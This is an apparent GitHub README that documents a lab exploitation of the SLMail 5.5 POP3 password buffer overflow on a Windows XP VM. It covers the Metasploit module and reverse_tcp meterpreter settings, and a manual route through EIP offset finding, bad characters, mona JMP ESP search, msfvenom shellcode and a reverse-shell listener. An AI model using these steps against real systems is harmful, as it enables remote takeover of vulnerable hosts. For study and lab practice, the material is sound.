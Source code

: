 
# SLMail 5.5 buffer overflow

`Seattle Lab Mail 5.5 server` is vulnerable to an unauthenticated buffer overflow attack when receiving an excessively
long password. This vulnerability can be exploited in any version of Windows running the executable `SLmail.exe`.

I exploited this vulnerability in the `Windows XP SP3` environment using `Kali Linux version 2021`, using an automated
exploit with `Metasploit` and a manual step-by-step exploit with `Immunity Debugger`.

## Requirements

Download the vulnerable application from **Exploit-DB**

- > [SLMAIL v5.5]((https://www.exploit-db.com/apps/12f1ab027e5374587e7e998c00682c5d-SLMail55_4433.exe))

Download Immunity debbugger for manual exploitation
- > [Immunity debugger]( https://www.immunityinc.com/products/debugger/)

## TEST

### Environment:

- ***Attack host*** : Kali Linux 2021 VM
- ***Vulnerable application host***: Windows XP SP3 VM

### Steps:

#### Using Metasploit:
1. Start the service POP3 SLMail in the victim machine.
2. Open metasploit in Kali Linux
3. Use the exploit ***"exploit/windows/pop3/seattlelab_pass"***
4. Set the meterpreter ***"windows/meterpreter/reverse_tcp"***
5. Set the options as follows:
    1. *RHOSTS*: Remote vulnerable host IP -> WinXP machine
    2. *LHOST*: Local attacker machine -> Kali machine
    3. *PORT*: 4444 or other free port
6. Exploit!
 
#### Manual exploitation
`VM IPs : @Kali : 192.168.1.20 | @Windows Xp : 192.168.1.10`

> IMPORTANT NOTE:  YOU HAVE TO RESTART THE SLMAIL APPLICATION AFTER EACH CRASH ! 

1. Start the service POP3 SLMail in the victim machine.![](/BOImages/sl.png)
2. Attach the application proccess to Immunity Debugger.![](/BOImages/2.png)![](/BOImages/3.png) 
3. To authenticate to the application you have to use the two commands `USER` and `PASS`. Try to crash the application by sending big buffer to the application. I used Python script for this purpose ![](/BOImages/13.png)
4. The application crashed! we can clearly see in Immunity Debugger that we were able to override the `EIP` ![](/BOImages/15.png)
5. The override of the value of `EIP` opens the possibility of `shell code` injection into the buffer. But before that, we need to calculate the number of bytes to inject before overwriting EIP. To do this, you can use `pattern_create.rb` script located in ***/usr/share/metasploit-framework/tools/exploit***. ![](/BOImages/18.png)
6. Replace the buffer sent by the generated the pattern. Inspect the new value of `EIP` in Immunity then calculate the offset for the crash using the script `pattern_offset.rb` located in ***/usr/share/metasploit-framework/tools/exploit*** ![](/BOImages/23.png)![](/BOImages/24.png).
7. `4654` charcters to overwrite the value of `EIP`. Let's test it: ![](/BOImages/25.png) ![](/BOImages/27.png)   
8. Now let's see if the application is sensitive to bad charcters. Generate a set of all possible charcters then send them over to the application as follows:
![](/BOImages/28.png) ![](/BOImages/29.png) 
9. Locate the set of characters in memory and try to find the characters that break the orders.![](/BOImages/32.png)
10. You can see that `x\00` is missing after the character B `\x42`. Also `\x0a` after `\x09`,  `\x0D` after `\x0C`. The final result of bad characters is the set `\x00\x0a\x0d\`. The shell to inject must not have this characters
11. To generate a `shell` use `MSFVENOM` tool as follows (Replace LHOST with your attack machine): ![](/BOImages/38.png)
12. The generated `shell` code needs some adjustements. If you try to use it for exploitation you will fail due to `Memory access Protection`. After injection, the beginning of the `shell` code is located in SP, so we have to find a `.dll` module that contains a `JMP ESP` command to redirect the program's execution to our Shell code (the address of this command needs to be located and then injected it into `EIP` by modifying the exploit script). For this purpose, we can use [Mona.py](https://github.com/corelan/mona), a library designed for Immunity debugger that accelerates the advanced researchs in memory for a specific program.
> Add `mona.py` to **Pycommands** folder of your Immunity debugger
13. use `!mona modules` command to list the `.dll` modules used by the program. Try to locate a module that: 
    * Has `JMP ESP` command 
    * Free from memory protections like `ASLR` , `SAFESEH`.
    ![](/BOImages/47.png)
    * Jump ESP in memory is `FFE4`.
    ![](/BOImages/48.png)
    ![](/BOImages/49.png) 
14. For this example, I selected `slmfc.dll` module. Use the command `!mona find -s "\xff\xe4" -m slmfc.dll` to locate an address of JMP ESP instruction in selected module
    ![](/BOImages/51.png) 
15. For this example I picked the address `5F4A358F`. This address needs to be injected in EIP so we the flow of the execution of the program can be redirect to the `shell code` located in `ESP` (After fuzzing). The address must be typed in Little Endian format in the script. (I add some No Operation `NOP` instructions to the buffer just before I send it) ![](/BOImages/52.png)
16. Open a multi handler listner using metasploit and use reverse tcp payload for staging as follows: ![](/BOImages/53.png)
17. Execute the python script '**slmail.py**' using the following syntax `./slmail.py @victim_machine`
    > Note: @victim_machine needs to be replaced by the real victim machine address
18. Exploit!
![](/BOImages/54.png)
